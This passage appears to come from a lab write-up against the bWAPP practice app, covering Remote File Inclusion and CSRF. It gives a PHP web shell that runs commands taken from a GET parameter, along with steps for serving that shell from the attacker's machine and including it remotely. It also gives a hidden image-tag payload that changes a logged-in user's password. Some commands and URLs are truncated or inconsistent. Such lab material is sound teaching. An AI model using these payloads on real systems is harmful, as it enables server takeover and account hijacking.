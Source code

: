 Remote File Inclusion (RFI) attacks work in a similar manner to LFI attacks. The difference is that instead of including local server files, attackers include their custom made scripts. The damage caused by RFI attacks can range from sensitive data disclosure to full system compromisation. The same webpage can be used to illustrate RFI. Open the terminal and list the files in the /root directory by using the ls command.

Lets begin by opening a new terminal and creating a file called remote_shell.txt.

![](../media/InfoSec%20Institute%20Writeup_16.png)

Fill the file with the php script you see below. To save the file press CTRL followed by X, then type Y and press ENTER to save the file

<?php $output = shell_exec($_GET["cmd"]); echo "<pre> $output </pre>"; ?>

The script accepts a variable as input. This variable is a GET request parameter called cmd. Using the RFI vulnerability, the script can be included in the web server hosting the  website. When it is executed on the server, it runs commands and displays the output on the website. To exploit the vulnerability, follow these steps:

1. Open a port in the terminal using python's http.server module. This module makes all the files in the current directory accessible via the HTTP protocol.
python3 m http.server &> http.log

2. Go back to the browser and modify the URL.
a. The first thing to add is the protocol. Since python's http.server module was used, the protocol should be HTTP

b. Write the IP address of the container

c. The default port of the server is 8000. The IP and port duo is called a socket. A socket identifies a process. In this case, [KALI P]:8000 identifies the python server running on the container.

d. The script remote_shell.php uses parameters passed through GET requests and runs them as shell commands. The variable cmd is such a parameter.

IP]:8000/remote_shell.php&action=go&cmd=id

3. Press the Return key to send the request. This request uploads the remote_shell.php script to the web server hosting the  website.
4. The website will display the following message:
![](../media/InfoSec%20Institute%20Writeup_17.png)

5. Go to the terminal and stop the python server using Control + C
HTTP requests are stateless since the protocol was not designed to remember user information. HTTP Cookies are small pieces of data that offer a reliable mechanism for websites to remember stateful information or record the user's browsing activity. In the HTTP request made when changing the password, the Cookie is used to identify the user. This Cookie legitimizes the request and allows the server to assign the process of password changing to the specific user.

In this example, changing the password consists of a request that is validated with a Cookie. All an attacker has to do to exploit this process is to trick the users into running the request while they have an active session. Consider the following payload:

<img src='http://bwapp/csrf_1.php?password_new=changed&password_conf=changed&action=change' height=0 width=0>
